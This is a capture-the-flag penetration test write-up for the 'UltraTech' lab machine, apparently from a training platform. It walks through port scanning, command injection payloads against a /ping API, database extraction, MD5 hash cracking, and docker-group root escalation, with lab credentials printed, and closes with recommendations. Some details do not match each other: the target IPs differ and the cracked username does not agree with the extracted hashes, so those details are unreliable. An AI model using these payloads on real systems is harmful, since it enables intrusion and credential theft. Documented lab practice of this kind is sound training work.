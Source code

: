 # UltraTech Penetration Testing Report

## Engagement Overview
- **Client**: UltraTech
- **Assessment Type**: Grey-box
- **Scope**: External Infrastructure
- **Target IP**: 10.10.88.255

## Initial Enumeration

### Nmap Scan
```sh
nmap -p- -sV -sC -T4 -o namp_scan 10.10.88.255
```

**Results:**

| PORT      | STATE | SERVICE | VERSION |
|-----------|-------|---------|---------|
| 21/tcp    | open  | ftp     | vsftpd 3.0.3 |
| 22/tcp    | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 8081/tcp  | open  | http    | Node.js Express framework |
| 31331/tcp | open  | http    | Apache httpd 2.4.29 (Ubuntu) |

## Identified Services & Attack Surface

### FTP (Port 21)

- **Version**: vsftpd 3.0.3
- **Potential Attacks:**
  ```sh
  nmap --script ftp-anon -p 21 10.10.88.255
  nmap --script ftp-brute -p 21 10.10.88.255
  ```

### SSH (Port 22)

- **Version**: OpenSSH 7.6p1
- **Potential Attacks:**
  ```sh
  nmap --script ssh-brute -p 22 10.10.88.255
  ```

### Web Application (Port 8081 - Node.js Express)

```sh
python3 /home/slehee/dirsearch/dirsearch.py -u http://10.10.88.255:31331

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12288

Target: http://10.10.88.255:31331/

[16:20:30] Scanning: 
[16:20:35] 403 -   294B - /.php
[16:20:43] 301 -   319B - /css  ->  http://10.10.88.255:31331/css/
[16:20:44] 200 -   15KB - /favicon.ico
[16:20:46] 200 -    4KB - /images/
[16:20:46] 301 -   322B - /images  ->  http://10.10.88.255:31331/images/
[16:20:46] 200 -    6KB - /index.html
[16:20:46] 301 -   326B - /javascript  ->  http://10.10.88.255:31331/javascript/
[16:20:46] 301 -   318B - /js  ->  http://10.10.88.255:31331/js/
[16:20:46] 200 -    1KB - /js/
[16:20:50] 200 -    53B - /robots.txt
[16:20:50] 403 -   303B - /server-status
[16:20:50] 403 -   304B - /server-status/

Task Completed
python3 /home/slehee/dirsearch/dirsearch.py -u http://10.10.88.255:8081 -w /snap/seclists/current/Discovery/Web-Content/api/api-endpoints-res.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25
Wordlist size: 12043

Target: http://10.10.88.255:8081/

[16:33:50] Scanning: 
[16:33:51] 200 -    39B - /auth
[16:33:51] 500 -    1KB - /ping
[16:33:51] 200 -    20B - /?:

```

Follow `js`  /js  ->  http://10.10.88.255:31331/js/ to see how ping interacts with api.



## Exploitation

### Server-Side Request Forgery (SSRF) & Command Injection

- **Exploited API:** `/ping?ip=`
- **Payload:**
  ```sh
  curl -X GET "http://10.10.90.160:8081/ping?ip=127.0.0.1%0Als"
  ```

- **Alternativly** go to the website and use backticks  
```sh
http://10.10.90.160:8081/ping?ip=`ls`

http://10.10.90.160:8081/ping?ip=`cat utech.db.sqlite`
```
Which means that it takes priority to execute in thius case!!


- **Findings:**
  ```plaintext
  index.js
  node_modules
  package.json
  start.sh
  utech.db.sqlite
  ```

### Extracting Credentials from Database

- **Payload:**
  ```sh
  curl -X GET "http://10.10.90.160:8081/ping?ip=127.0.0.1%0Acat%20utech.db.sqlite.b64" --output utech.db.sqlite.b64
  base64 -d utech.db.sqlite.b64 > utech.db.sqlite
  ```
- **Extracted Hashes:**
  ```plaintext
  r00t:f357a0c52799563c7c7b76c1e7543a32 <---username is r00t
  admin:0d0ea5111e3c1def594c1684e3b9be84
  ```

### Cracking Hashes (MD5)

- **Command:**
  ```sh
  hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt --force
  ```
- **Cracked Credentials:**
  ```plaintext
  Username: mrsheafy
  Password: n100906
  ```

## Privilege Escalation

### SSH Access

- **Command:**
  ```sh
  ssh r00t@10.10.90.160
  ```

### Docker Privilege Escalation

- **User Groups:**
  ```sh
  groups
  ```
  **Result:** `r00t docker`
- **Exploitation using GTFOBins:**
  ```sh
  docker run -v /:/mnt --rm -it bash chroot /mnt sh
  ```
- **Gained Root Access:**
  ```sh
  whoami
  root
  ```

## Summary

### Findings:

- **Command Injection via /ping API** → Led to database extraction.
- **Weak MD5 Hashes** → Cracked admin credentials.
- **SSH Access with Admin Credentials** → Allowed deeper enumeration.
- **Docker Misconfiguration** → Allowed root access.

### Recommendations:

1. **Sanitize API Inputs** - Prevent command injection.
2. **Enforce Strong Hashing Algorithms** - Use bcrypt instead of MD5.
3. **Limit User Privileges** - Remove unnecessary docker access.
4. **Update Software** - Apache, OpenSSH, and other services should be patched.

---

**Status:** Root Access Achieved ✅


